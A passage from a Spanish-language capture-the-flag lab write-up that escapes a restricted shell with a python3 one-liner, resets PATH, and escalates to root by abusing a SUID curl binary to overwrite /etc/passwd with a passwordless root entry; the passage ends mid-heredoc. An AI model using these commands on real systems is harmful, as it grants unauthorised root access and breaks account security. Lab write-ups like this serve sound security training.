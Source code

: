 Sabiendo que tenemos python3, es muy sencillo escapar, solamente tenemos que ejecutar esto:

```python
python3 -c 'import os; os.system("/bin/bash")'
```

una vez ejecutado ya estaremos en bash, pero nuestro path sigue siendo el mismo, por lo que ahora ejecutamos esto:

```css
export PATH=/bin/
```

Ahora ya podemos hacer todo normal.

#### Escalada a root

si vemos los binarios SUID veremos lo siguiente:

![suid](../../../maquina-chmod-4755/img/SUID.png)

como vemos está curl, y hay una manera fácil de escalar escribiendo archivos del sistema:

```css
LFILE=file_to_write
TF=$(mktemp)
echo DATA >$TF
curl "file://$TF" -o "$LFILE"
```

en este caso escribiremos el `/etc/passwd`, para hacerlo ejecutaremos los comandos anteriores de esta manera:

```css
LFILE=/etc/passwd
TF=$(mktemp)
  cat <<EOF > $TF
  root::0:0:root:/root:/bin/bash
  daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
  bin:x:2:2:bin:/bin:/usr/sbin/nologin
  sys:x:3:3:sys:/dev:/usr/sbin/nologin
  sync:x:4:65534:sync:/bin:/bin/sync
  games:x:5:60:games:/usr/games:/usr/sbin/nologin
  man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
  lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
  mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
  news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
  uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
  proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
  www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
  backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
  list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
  irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
  _apt:x:42:65534::/nonexistent:/usr/sbin/nologin
  nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
```